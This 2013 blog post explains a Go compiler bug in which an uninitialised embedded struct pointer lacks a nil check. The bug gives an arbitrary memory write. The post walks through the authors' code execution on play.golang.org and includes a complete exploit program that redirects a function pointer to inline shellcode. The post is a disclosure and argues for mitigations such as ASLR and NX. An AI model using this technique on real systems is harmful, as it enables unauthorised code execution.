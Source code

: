 Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Here is a summary of how we did it.

<h3>Introduction</h3>
Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for help finding the underlying cause and updating the exploit for Go 1.03. Here is a summary of how we did it.

This post is cross posted on the [PPP blog](http://ppp.cylab.cmu.edu/wordpress/?p=1087).

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The problem comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the [issue](https://code.google.com/p/go/issues/detail?id=5336) should be fixed (it was closed 3 years ago as "working as intended"). I also think it is important for Go to add the protections that come now standard with C binaries (ASLR, NX) - I posted [an article](|filename|/security/securing_and_exploiting_go_binaries.md) earlier about security in Go where I strongly advocated those protections. Luckily, Go 1.1. will be adding some of these protections: specificially, the above exploit will not work because <a href="https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0">Go 1.1  uses a non-executable heap and stack</a> (the vulnerability still works to give an arbitrary write, but more care is necessary to complete the exploit). The development and release versions (as of time of this writing) are still vulnerable, but good job Go!
